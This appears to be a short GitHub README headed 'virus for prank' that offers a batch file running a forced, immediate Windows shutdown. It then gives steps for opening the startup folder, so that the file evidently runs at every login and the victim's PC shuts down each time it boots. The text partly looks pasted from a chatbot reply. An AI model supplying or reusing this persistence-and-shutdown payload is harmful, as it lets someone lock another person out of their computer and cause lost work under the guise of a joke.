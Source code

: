 # virus for prank
 just for fun

To create a batch file that shuts down a Windows PC, you can use the shutdown command. Here's a simple example of a batch file to shut down the PC:

Open a text editor like Notepad.
Paste the following code into the text editor:
batch
Copy code
@echo off
shutdown /s /f /t 0
Save the file with a .bat extension, for example, shutdown_pc.bat.
Now, whenever you double-click this batch file, it will immediately shut down the PC forcefully (/f) without waiting (/t 0).

Please note that the shutdown operation is irreversible, so make sure to save any important work before executing this batch file.

AFTER SAVE THIS BAT FILE
Press Windows Key + R to open the Run dialog.
Type shell:startup into the Run dialog.
Press Enter or click OK.
Thanks for Watching 🤗